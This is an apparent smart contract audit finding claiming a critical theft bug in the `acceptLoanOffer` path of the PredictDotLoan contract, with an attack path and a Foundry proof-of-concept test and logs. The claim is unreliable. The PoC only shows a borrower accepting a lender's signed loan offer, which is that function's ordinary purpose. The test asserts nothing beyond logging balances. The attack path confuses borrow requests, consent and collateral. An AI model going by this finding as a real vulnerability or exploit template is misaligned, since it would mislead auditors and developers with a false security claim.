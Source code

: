 Mini Pine Rattlesnake

High

# Critical Flaw in Loan Offer Processing: Open Token Transfer Gateways

### Summary

In the `acceptLoanOffer` function, insufficient authorization checks on token transfers create potential exploit scenarios where users can withdraw funds by simply approving the contract, leaving funded accounts vulnerable to malicious actions.

### Root Cause

The sensitive transaction logic within `_transferLoanAmountAndProtocolFee` carries a critical flaw. It permits arbitrary addresses as the source (`from`) without rigorous validation of transaction intents.
```solidity
889:     function _transferLoanAmountAndProtocolFee(
890:         address from,
891:         address to,
892:         uint256 loanAmount
893:     ) private returns (uint256 protocolFee) {
894:         protocolFee = (loanAmount * protocolFeeBasisPoints) / 10_000;
895:@=>      LOAN_TOKEN.safeTransferFrom(from, to, loanAmount - protocolFee);
896:         if (protocolFee > 0) {
897:@=>          LOAN_TOKEN.safeTransferFrom(from, protocolFeeRecipient, protocolFee);
898:         }
899:     }
```

### Snippet
- https://github.com/sherlock-audit/2024-09-predict-fun/blob/main/predict-dot-loan/contracts/PredictDotLoan.sol#L895
- https://github.com/sherlock-audit/2024-09-predict-fun/blob/main/predict-dot-loan/contracts/PredictDotLoan.sol#L897

### Attack Path

1. Initial Approval:
- Lender B receives a request using `acceptBorrowRequest`
2. Borrower A Acknowledges Approval:
- Borrower A knows that B has given consent.
3. Exploitation by Borrower A:
- A calls a function that uses `_transferLoanAmountAndProtocolFee`, namely `acceptLoanOffer` because `_acceptOffer` calls `_transferLoanAmountAndProtocolFee`, to accept a loan offer from lender B.
- When borrower A accepts a credit offer (`acceptLoanOffer`), this process involves transferring the specified collateral from borrower A account.
- Since the contract does not verify that `from` is a legitimate party to trigger the transfer, borrower A can steal from lender B.
4. Result:
- Funds are transferred from B without B's direct authorization, and A successfully steals the funds.

### Impact

Lender B may suffer financial loss because borrower A steals funds from lender B.

### PoC

This is a derivative contract of ` PredictDotLoan.acceptLoanOffer.t.sol`
```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.25;

import {PredictDotLoan_AcceptLoanOffer_Test} from "./PredictDotLoan.acceptLoanOffer.t.sol";
import {IPredictDotLoan} from "../../contracts/interfaces/IPredictDotLoan.sol";

contract PredictDotLoan_ExploitSimulation_Test is PredictDotLoan_AcceptLoanOffer_Test {
    
    function test_exploit_scenario() public {
        // Setup initial conditions for acceptLoanOffer
        IPredictDotLoan.Proposal memory proposal = _generateLoanOffer(IPredictDotLoan.QuestionType.Binary);
        proposal.from = lender; // Original lender
        proposal.signature = _signProposal(proposal);

        // Exploit by setting `from`
        address unauthorizedAddress = borrower;
        
        // Mint tokens
        mockERC20.mint(unauthorizedAddress, proposal.loanAmount);
        vm.prank(unauthorizedAddress);
        mockERC20.approve(address(predictDotLoan), proposal.loanAmount);

        // Log initial balance of the borrower
        uint256 initialBorrowerBalance = mockERC20.balanceOf(borrower);
        emit log_named_uint("Initial Borrower Balance", initialBorrowerBalance);

        // Log initial balance of the lender
        uint256 initialLenderBalance = mockERC20.balanceOf(lender);
        emit log_named_uint("Initial Lender Balance", initialLenderBalance);

        // Attempt to exploit acceptLoanOffer
        vm.prank(unauthorizedAddress);
        predictDotLoan.acceptLoanOffer(proposal, proposal.loanAmount);

        // Log the amount borrowed
        emit log_named_uint("Amount Borrowed", proposal.loanAmount);

        // Check the borrower's balance after the loan
        uint256 borrowerBalance = mockERC20.balanceOf(borrower);
        emit log_named_uint("Borrower Balance After Loan", borrowerBalance);

        // Check the lender's balance after the loan
        uint256 lenderBalance = mockERC20.balanceOf(lender);
        emit log_named_uint("Lender Balance After Loan", lenderBalance);

        // Log a message indicating the test passed
        emit log("Test passed: Borrower and lender balances after loan logged successfully");
    }
}
```
```solidity
Logs:
  Initial Borrower Balance: 700000000000000000000
  Initial Lender Balance: 700000000000000000000
  Amount Borrowed: 700000000000000000000
  Borrower Balance After Loan: 1400000000000000000000
  Lender Balance After Loan: 0
  Test passed: Borrower and lender balances after loan logged successfully
```